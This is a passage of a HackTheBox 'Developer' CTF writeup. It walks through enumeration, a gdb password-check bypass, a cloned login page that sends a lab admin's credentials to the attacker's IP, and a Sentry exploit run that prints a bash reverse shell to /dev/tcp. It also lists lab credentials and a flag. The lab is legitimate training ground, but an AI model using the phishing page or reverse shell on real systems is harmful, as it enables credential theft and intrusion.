# Developer - HackTheBox - Writeup
Linux, 40 Base Points, Hard


## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User***: 

***Root***: 




## Developer Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ nmap -sV -sC -oA nmap/Developer 10.10.11.103
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-09 22:00 IST
Nmap scan report for 10.10.11.103
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://developer.htb/
Service Info: Host: developer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

By observing port 80 on [http://developer.htb/](http://developer.htb/) we get the following web page:


Let's sign up on the following link [Signup](http://developer.htb/accounts/signup/) :



And after we registred we get the following dashboard:


We can see a list of challenges, Let's try the PWN challenge:



By downloading the [pwnme](./pwnme) challenge we get a binary, Let's run it:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ file pwnme 
pwnme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=02b77125889f0f89c37d81f803186dbf900506d4, for GNU/Linux 3.2.0, not stripped
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ ./pwnme 
Please enter your password as a program argument!
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ ./pwnme 1234
Wrong password.
```

Let's reverse the binary using ```Ghidra```:



We can see the password check on the ```main``` function.

We can simply bypass it using ```gdb```:
```asm
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ gdb pwnme

gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000000011f3 <+0>:	push   rbp
   0x00000000000011f4 <+1>:	mov    rbp,rsp
   0x00000000000011f7 <+4>:	sub    rsp,0x30
   0x00000000000011fb <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000000011fe <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x0000000000001202 <+15>:	cmp    DWORD PTR [rbp-0x24],0x1
   0x0000000000001206 <+19>:	jg     0x1219 <main+38>
   0x0000000000001208 <+21>:	lea    rdi,[rip+0xdf9]        # 0x2008
   0x000000000000120f <+28>:	call   0x1040 <puts@plt>
   0x0000000000001214 <+33>:	jmp    0x12a2 <main+175>
   0x0000000000001219 <+38>:	mov    rax,QWORD PTR [rbp-0x30]
   0x000000000000121d <+42>:	add    rax,0x8
   0x0000000000001221 <+46>:	mov    rax,QWORD PTR [rax]
   0x0000000000001224 <+49>:	mov    rdi,rax
   0x0000000000001227 <+52>:	call   0x1155 <check_password>
   0x000000000000122c <+57>:	test   eax,eax
   0x000000000000122e <+59>:	je     0x1296 <main+163>
   0x0000000000001230 <+61>:	lea    rdi,[rip+0xe09]        # 0x2040
   0x0000000000001237 <+68>:	call   0x1040 <puts@plt>
   0x000000000000123c <+73>:	movabs rax,0xc384b2cb92a49894
   0x0000000000001246 <+83>:	movabs rdx,0x8796c283c680b381
   0x0000000000001250 <+93>:	mov    QWORD PTR [rbp-0x20],rax
   0x0000000000001254 <+97>:	mov    QWORD PTR [rbp-0x18],rdx
   0x0000000000001258 <+101>:	mov    DWORD PTR [rbp-0x10],0xcdc7bf
   0x000000000000125f <+108>:	lea    rax,[rbp-0x20]
   0x0000000000001263 <+112>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001267 <+116>:	jmp    0x127d <main+138>
   0x0000000000001269 <+118>:	mov    rax,QWORD PTR [rbp-0x8]
   0x000000000000126d <+122>:	lea    rdx,[rax+0x1]
   0x0000000000001271 <+126>:	mov    QWORD PTR [rbp-0x8],rdx
   0x0000000000001275 <+130>:	movzx  edx,BYTE PTR [rax]
   0x0000000000001278 <+133>:	sub    edx,0x50
   0x000000000000127b <+136>:	mov    BYTE PTR [rax],dl
   0x000000000000127d <+138>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001281 <+142>:	movzx  eax,BYTE PTR [rax]
   0x0000000000001284 <+145>:	test   al,al
   0x0000000000001286 <+147>:	jne    0x1269 <main+118>
   0x0000000000001288 <+149>:	lea    rax,[rbp-0x20]
   0x000000000000128c <+153>:	mov    rdi,rax
   0x000000000000128f <+156>:	call   0x1040 <puts@plt>
   0x0000000000001294 <+161>:	jmp    0x12a2 <main+175>
   0x0000000000001296 <+163>:	lea    rdi,[rip+0xdc4]        # 0x2061
   0x000000000000129d <+170>:	call   0x1040 <puts@plt>
   0x00000000000012a2 <+175>:	mov    eax,0x0
   0x00000000000012a7 <+180>:	leave  
   0x00000000000012a8 <+181>:	ret    
End of assembler dump.
gef➤  

```

First, We need to break on the first ```if``` statment, After ```check_password``` called:
```console
   0x0000000000001227 <+52>:	call   0x1155 <check_password>
   0x000000000000122c <+57>:	test   eax,eax
```

Let's add a breakpoint on ```b *main+57```.

Next, We just need to jump to ```jump *main+61``` which is the following function ```puts("Password correct. Here\'s a flag:");```:

```asm
gef➤  b *main+57
Breakpoint 1 at 0x122c

ef➤  r 1111
Starting program: /hackthebox/Developer/pwnme 1111

ef➤  r 1111
Starting program: /hackthebox/Developer/pwnme 1111

Breakpoint 1, 0x000055555555522c in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0xffffffff        
$rdx   : 0x73              
$rsp   : 0x00007fffffffde60  →  0x00007fffffffdf88  →  0x00007fffffffe2b9  →  "/hackthebox/Developer/pwnme"
$rbp   : 0x00007fffffffde90  →  0x00005555555552b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffde20  →  "supersaiyan3"
$rdi   : 0x00007fffffffde30  →  0x0000000031313131 ("1111"?)
$rip   : 0x000055555555522c  →  <main+57> test eax, eax
$r8    : 0x0               
$r9    : 0x336e6179696173  
$r10   : 0xfffffffffffff28c
$r11   : 0x00007ffff7f3eff0  →  <__strcmp_avx2+0> mov eax, edi
$r12   : 0x0000555555555070  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde60│+0x0000: 0x00007fffffffdf88  →  0x00007fffffffe2b9  →  "/hackthebox/Developer/pwnme"	 ← $rsp
0x00007fffffffde68│+0x0008: 0x0000000200000000
0x00007fffffffde70│+0x0010: 0x00005555555552b0  →  <__libc_csu_init+0> push r15
0x00007fffffffde78│+0x0018: 0x0000555555555070  →  <_start+0> xor ebp, ebp
0x00007fffffffde80│+0x0020: 0x00007fffffffdf80  →  0x0000000000000002
0x00007fffffffde88│+0x0028: 0x0000000000000000
0x00007fffffffde90│+0x0030: 0x00005555555552b0  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffde98│+0x0038: 0x00007ffff7e0ad0a  →  <__libc_start_main+234> mov edi, eax
───────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555221 <main+46>        mov    rax, QWORD PTR [rax]
   0x555555555224 <main+49>        mov    rdi, rax
   0x555555555227 <main+52>        call   0x555555555155 <check_password>
 → 0x55555555522c <main+57>        test   eax, eax
   0x55555555522e <main+59>        je     0x555555555296 <main+163>
   0x555555555230 <main+61>        lea    rdi, [rip+0xe09]        # 0x555555556040
   0x555555555237 <main+68>        call   0x555555555040 <puts@plt>
   0x55555555523c <main+73>        movabs rax, 0xc384b2cb92a49894
   0x555555555246 <main+83>        movabs rdx, 0x8796c283c680b381
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwnme", stopped 0x55555555522c in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555522c → main()
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  jump *main+61
Continuing at 0x555555555230.
Password correct. Here's a flag:
DHTB{b4s1c0v3rF7ow}
[Inferior 1 (process 2312341) exited normally]
gef➤  

```

And we can see the flag ```DHTB{b4s1c0v3rF7ow}``.

We can see also the password on ```rsi``` registry ``supersaiyan3```.

When we insert the flag we have an option to submit a walkthrough:



We can see the text that says:
>...Admins will check the walkthrough as soon as they can and reserve the right to delete them where necessary.

Meaning we can post our walkthrough and make the ```admin``` to click on that link.

Let's try it by navigating the admin to [http://10.10.16.11:8000/test.html](http://10.10.16.11:8000/test.html):


Wait a few seconds and we can see the following request:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.103 - - [10/Nov/2021 23:27:53] "GET /test.html HTTP/1.1" 304 -
```

It isn't possible to steal the admin cookie (unable to inject ```<script>``` tag).

The next step is to create a phishing login page:


We can clone the website using [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) or by copying the source code of the website and making our changes.

Let's create a new file ```redirect.html``` with the following content:
```html
<html>
<script>
        if (window.opener) window.opener.parent.location.replace('http://10.10.14.14/login.html');
        if (window.parent != window) window.opener.parent.location.replace('http://10.10.14.14/login.html');
</script>
</html>        
```

This is the first stage, It will redirect the admin to the login page, Where the ```login.html``` is:
```html
<!doctype html>
<html lang="en">
<script>

function httpGet(theUrl)
{
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
    xmlHttp.send( null );
    return xmlHttp.responseText;
}

httpGet("http://10.10.14.14/"+document.referrer);

function getCreds(theForm)
{

httpGet("http://10.10.14.14/"+document.getElementById('id_login').value+document.getElementById('id_password').value);

}

</script>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="http://developer.htb/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="#" onsubmit="return getCreds(this);" method="post">
    	<input type="hidden" name="csrfmiddlewaretoken" value="rvQfrZ5IBPjwSg1xpewDiG93KtN2s8ZhlX6vmSiKieT698ZmuAu1za8bioK9qRuX">
      
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
		<div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

Now, Let's start two web servers, First for ```redirect.html``` page and the second for ```login.html```.

```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ sudo php -S 0.0.0.0:80
[Wed Nov 10 23:39:01 2021] PHP 7.4.5 Development Server (http://0.0.0.0:80) started

```

Next, Let's put the following link as a walkthrough [http://10.10.14.14:8000/redirect.html](http://10.10.14.14:8000/redirect.html) and wait a few seconds:


And we can see:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.103 - - [10/Nov/2021 23:41:02] "GET /red.html HTTP/1.1" 304 -

┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ sudo php -S 0.0.0.0:80
[Wed Nov 10 23:39:01 2021] PHP 7.4.5 Development Server (http://0.0.0.0:80) started
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46056 Accepted
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46056 [200]: (null) /login.html
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46056 Closing
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46058 Accepted
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46058 [404]: (null) /http://10.10.14.14:8000/red.html - No such file or directory
[Wed Nov 10 23:41:03 2021] 10.10.11.103:46058 Closing
[Wed Nov 10 23:41:04 2021] 10.10.11.103:46060 Accepted
[Wed Nov 10 23:41:04 2021] 10.10.11.103:46060 [404]: (null) /adminSuperSecurePassword@HTB2021 - No such file or directory
[Wed Nov 10 23:41:04 2021] 10.10.11.103:46060 Closing
[Wed Nov 10 23:41:04 2021] 10.10.11.103:46062 Accepted

```

And we can see the ```admin``` credentials: ```admin:SuperSecurePassword@HTB2021```, Let's use them to log in as ```admin```:



By running ```gobuster``` we found the following page [http://developer.htb/admin](http://developer.htb/admin):



By clicking on [http://developer.htb/admin/sites/site/](http://developer.htb/admin/sites/site/) we can see another domain [http://developer-sentry.developer.htb](http://developer-sentry.developer.htb):



By browsing the new domain we get the following page:



Sentry is a real-time crash reporting platform for web applications, mobile applications and games. It includes a fully integrated Web interface and handles client authentications as well as all the logic for data storage and aggregation.

The ```admin``` credentials are not working here, Let's try to register:



After the login, We can see the page [http://developer-sentry.developer.htb/organizations/sentry/members/](http://developer-sentry.developer.htb/organizations/sentry/members/) with sentry members:



We are able to login using  ```jacob@developer.htb``` with the ```admin``` password ```SuperSecurePassword@HTB2021```:



As we can see the Sentry version is 8.0.0.

Let's use the following [https://www.exploit-db.com/exploits/50318](https://www.exploit-db.com/exploits/50318) to get RCE.

Before executing the script we need to change the ```sentry_url``` before the login request:
```python
...
sentry_url="http://developer-sentry.developer.htb/auth/login/sentry/"
login_request = request.post(sentry_url,login_info)
```

Now, Let's create ```nc``` listener:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...

```

Run the exploit:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ python2.7 sentry.py -U jacob@developer.htb -P 'SuperSecurePassword@HTB2021' -l 10.10.14.14 -p 4444 --url http://developer-sentry.developer.htb/sentry

[+] Using Bash Reverse Shell : /bin/bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"
[+] Encoded Payload : eJwVizsOgCAQBfs9BZXYyLr+Ss5g9ASAJJoY2Ah6fmHyislLxqXX8hOdTwnWyD4AE7TtzQPsEu0V0Jp0SuARzC47V2yqVl/RXUI3Ag//YXaM1Ku6RRHhVBC9bqgEM5i88QLqB+jZHXE=
[+] Retrieving CSRF token to submit the login form
[+] URL : http://developer-sentry.developer.htb/sentry
[+] CSRF Token : 6UzWbOQwBwdo61NUNYZLy7EZo1Pe168M
[+] Login Successful
[+] W00t W00t Sending Shell :) !!!
[+] Check nc listener!

```

And we get a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Developer]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.16.11] from developer.htb [10.10.11.103] 35344
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
www-data@developer:/var/sentry$ 
```

By running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we found the following config file:
```python
